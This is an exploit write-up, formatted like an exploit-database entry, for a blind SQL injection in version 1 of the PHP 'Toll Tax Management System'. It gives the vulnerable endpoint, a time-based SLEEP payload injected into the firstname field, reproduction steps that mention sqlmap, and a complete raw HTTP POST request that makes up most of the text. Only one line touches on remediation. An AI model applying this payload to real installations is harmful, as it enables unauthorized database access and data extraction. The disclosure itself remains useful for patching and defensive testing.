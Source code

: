
# Exploit Title: 
SQLI Blind (Toll Tax Management System)
# Date: 
22/09/2023
# Exploit Author: 

Xcode0x (Mohamed Almarri)

Twitter: @xcode0x

# Vendor Homepage: 
[https://github.com/oretnom23]()
# Software Link: 
https://www.sourcecodester.com/php/15304/toll-tax-management-system-phpoop-free-source-code.html
# Version: 
v1
# Tested on: 
debian

----
# SQLI BLIND   :

The application's endpoint /classes/Users.php?f=save is vulnerable to blind SQL injection. By injecting a payload into the firstname field, specifically Adminstrator' AND (SELECT 2171 FROM (SELECT(SLEEP(5)))hgdO)-- EnP, an attacker can introduce a conditional delay in the SQL query. If the server responds with a delay of approximately 5 seconds after processing this request, it confirms the vulnerability. This vulnerability can allow attackers to infer information about the database and potentially extract data or perform administrative operations. It's recommended to sanitize all user inputs and use prepared statements to prevent such attacks.
# POC [debian]:

1- login as admin and go to profile [http://10.0.30.0:1337/admin/?page=user] .

2- set you payload in firstname or use sqlmap .

POST /classes/Users.php?f=save HTTP/1.1

Host: 10.0.30.0:1337

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: */*

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

X-Requested-With: XMLHttpRequest

Content-Type: multipart/form-data; boundary=---------------------------87171060839686939451677610311

Content-Length: 999

Origin: http://10.0.30.0:1337

Connection: close

Referer: http://10.0.30.0:1337/admin/?page=user

Cookie: PHPSESSID=o23q98hs6j8ut4u548ebt8epe4



-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="id"


1

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="firstname"


Adminstrator' AND (SELECT 2171 FROM (SELECT(SLEEP(5)))hgdO)-- EnP

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="middlename"


s

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="lastname"


Admin

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="username"


admin

-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="password"


-----------------------------87171060839686939451677610311

Content-Disposition: form-data; name="img"; filename=""

Content-Type: application/octet-stream


-----------------------------87171060839686939451677610311--


![Drag Racing](https://github.com/xcodeOn1/SQLI-TollTax/blob/main/h.png)

![Drag Racing](https://github.com/xcodeOn1/SQLI-TollTax/blob/main/s2.png)

 # Tested  

 Linux - debian
